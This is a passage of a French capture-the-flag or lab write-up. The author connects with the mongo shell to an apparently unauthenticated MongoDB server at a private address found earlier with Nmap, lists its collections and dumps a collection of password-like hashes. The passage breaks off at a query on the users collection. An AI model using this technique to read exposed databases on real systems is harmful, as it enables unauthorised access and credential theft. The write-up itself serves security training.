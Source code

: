Pour se connecter on se sert du client officiel *MongoDB*. Notez que pour certaines plateformes on trouve des binaires précompilés.  

On passe en argument l'adresse IP du serveur ainsi que le nom de la base (récupérée plus tôt par *Nmap*, la vie est bien faite) :  

```plain
$ ./mongo 192.168.5.56/NoExploitingMe
MongoDB shell version: 2.6.3
connecting to: 192.168.5.56/NoExploitingMe
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
	http://docs.mongodb.org/
Questions? Try the support group
	http://groups.google.com/group/mongodb-user
Server has startup warnings: 
Tue Jul  1 08:05:04.297 [initandlisten] 
Tue Jul  1 08:05:04.297 [initandlisten] ** NOTE: This is a 32 bit MongoDB binary.
Tue Jul  1 08:05:04.297 [initandlisten] **       32 bit builds are limited to less than 2GB of data (or less with --journal).
Tue Jul  1 08:05:04.297 [initandlisten] **       Note that journaling defaults to off for 32 bit and is currently off.
Tue Jul  1 08:05:04.297 [initandlisten] **       See http://dochub.mongodb.org/core/32bit
Tue Jul  1 08:05:04.297 [initandlisten] 
> help
	db.help()                    help on db methods
	db.mycoll.help()             help on collection methods
	sh.help()                    sharding helpers
	rs.help()                    replica set helpers
	help admin                   administrative help
	help connect                 connecting to a db help
	help keys                    key shortcuts
	help misc                    misc things to know
	help mr                      mapreduce

	show dbs                     show database names
	show collections             show collections in current database
	show users                   show users in current database
	show profile                 show most recent system.profile entries with time >= 1ms
	show logs                    show the accessible logger names
	show log [name]              prints out the last segment of log in memory, 'global' is default
	use <db_name>                set current database
	db.foo.find()                list objects in collection foo
	db.foo.find( { a : 1 } )     list objects in foo where a == 1
	it                           result of the last line evaluated; use to further iterate
	DBQuery.shellBatchSize = x   set default number of items to display on shell
	exit                         quit the mongo shell
> show collections
hashes
system.indexes
users
> db.hashes.find()
{ "_id" : ObjectId("53b2ce213d9f3b7ecb689e0c"), "hash" : "a9b7ba70783b617e9998dc4dd82eb3c5" }
{ "_id" : ObjectId("53b2ce213360db12c1cc98c4"), "hash" : "b8c37e33defde51cf91e1e03e51657da" }
{ "_id" : ObjectId("53b2ce21ab519d66c7e8c3fa"), "hash" : "fba9d88164f3e2d9109ee770223212a0" }
{ "_id" : ObjectId("53b2ce21a9b1a0d11763f3cb"), "hash" : "aa68c75c4a77c87f97fb686b2f068676" }
{ "_id" : ObjectId("53b2ce21e1f720407fee85d0"), "hash" : "fed33392d3a48aa149a87a38b875ba4a" }
{ "_id" : ObjectId("53b2ce21945ebf8f0a006cf6"), "hash" : "2387337ba1e0b0249ba90f55b2ba2521" }
{ "_id" : ObjectId("53b2ce219c83c438e69f11bd"), "hash" : "9246444d94f081e3549803b928260f56" }
{ "_id" : ObjectId("53b2ce21e840353b0712d206"), "hash" : "d7322ed717dedf1eb4e6e52a37ea7bcd" }
{ "_id" : ObjectId("53b2ce219dc693433f455c50"), "hash" : "1587965fb4d4b5afe8428a4a024feb0d" }
{ "_id" : ObjectId("53b2ce211092759e74e9c5a9"), "hash" : "31b3b31a1c2f8a370206f111127c0dbd" }
> db.users.find()
```
